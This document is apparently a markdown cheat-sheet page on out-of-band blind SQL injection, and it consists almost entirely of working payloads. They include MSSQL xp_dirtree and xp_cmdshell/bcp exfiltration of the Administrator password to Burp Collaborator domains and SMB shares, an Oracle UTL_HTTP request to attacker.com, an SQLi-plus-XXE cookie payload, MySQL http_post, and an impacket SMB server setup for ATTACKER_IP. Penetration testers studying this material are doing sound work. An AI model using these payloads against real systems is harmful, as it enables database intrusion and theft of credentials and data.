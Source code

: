 {% code overflow="wrap" fullWidth="true" %}
```sql
# Blind SQL injection using out-of-band (OAST)
If vulnerable to SQLi but other techniques did not work, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control.
A variety of network protocols can be used for this purpose, but typically the most effective is DNS. Many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems. 
# Using Burp Collaborator
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--                              '
#  This causes the database to perform a lookup for the following domain:
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
# Having confirmed OAST, use it to exfiltrate data from the vulnerable application
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
'
'
# An attacker could then access this file via an SMB share or HTTP server running on the database server, thereby exfiltrating the data through an alternate channel.
SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';
# Alternatively, OPENROWSET or BULK INSERT can be used to interact with external data sources, facilitating data exfiltration through OOB channels.
# Oracle
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;


# On trackingID cookie, using SQLi + XXE
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.OASTIFY.COM/">+%25remote%3b]>'),'/l')+FROM+dual--
'
# Additional SQLi payload with XML for reference with || the SQL concatenation operator to concatenate two expressions that evaluate two character data types or to numeric data type and do some obfuscating.  
'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % fuzz SYSTEM "http://OASTI'||'FY.COM/">%fuzz;]>'),'/l') from dual)||'


# HTTP requests (MySQL and MariaDB needs UDF to be created and installed to support HTTP requests)
SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;
# DNS Exfiltration (MySQL does not natively support it so attackers might use UDFs or system-level scripts to perform DNS lookups.
# SMB Exfiltration / first start SMB server to host the exfiltration and then trigger it with a payload
smbserver.py -smb2support -comment "My Logs Server" -debug logs /tmp
SELECT sensitive_data INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt';
1'; SELECT @@version INTO OUTFILE '\\\\ATTACKER_IP\\logs\\out.txt'; --
```
{% endcode %}
